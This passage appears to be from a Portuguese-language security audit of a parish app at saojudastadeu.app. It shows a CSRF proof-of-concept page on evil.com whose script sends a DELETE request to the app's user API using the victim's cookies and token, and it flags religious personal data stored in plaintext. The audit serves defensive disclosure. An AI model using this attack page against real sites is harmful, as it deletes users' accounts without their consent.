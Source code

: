#### Ataque CSRF Demonstrado:

```html
<!-- Página maliciosa: http://evil.com/steal.html -->
<!DOCTYPE html>
<html>
<head><title>Ganhe Prêmio!</title></head>
<body>
<h1>Clique para ganhar R$ 1000!</h1>
<script>
// Usuário já logado em saojudastadeu.app
// Navegador envia cookies automaticamente (credentials: true)

fetch('https://saojudastadeu.app/api/users/VICTIM_ID', {
  method: 'DELETE',
  credentials: 'include',  // ← Envia cookies da vítima
  headers: {
    'Authorization': 'Bearer ' + localStorage.getItem('token')  // ← Se exposto
  }
})
.then(() => alert('Conta deletada com sucesso! Ops...'));
</script>
</body>
</html>
```

**Resultado:** Usuário perde a conta sem saber.

#### Impacto Real:

1. ✅ **CSRF de qualquer site malicioso**
2. ✅ **Roubo de dados via JavaScript**
3. ✅ **Ações não autorizadas (delete, update)**
4. ✅ **Bypass completo de proteção CSRF**

---

### 🔴 CRÍTICO #5: Dados Religiosos Sem Criptografia

**Gravidade:** 9/10 - Violação LGPD Art. 11

#### Evidências:

```typescript
// shared/schema.ts:73-78
export const users = pgTable("users", {
  // ... outros campos ...

  // ❌ DADOS RELIGIOSOS EM TEXTO PURO (LGPD Art. 11)
  baptismDate: date('baptism_date'),              // ❌ PLAINTEXT
  baptismParish: varchar('baptism_parish', { length: 255 }),  // ❌ PLAINTEXT
  confirmationDate: date('confirmation_date'),    // ❌ PLAINTEXT
  confirmationParish: varchar('confirmation_parish', { length: 255 }),  // ❌ PLAINTEXT
  marriageDate: date('marriage_date'),            // ❌ PLAINTEXT
  marriageParish: varchar('marriage_parish', { length: 255 }),  // ❌ PLAINTEXT
  maritalStatus: varchar('marital_status', { length: 20 }),  // ❌ PLAINTEXT
});
```
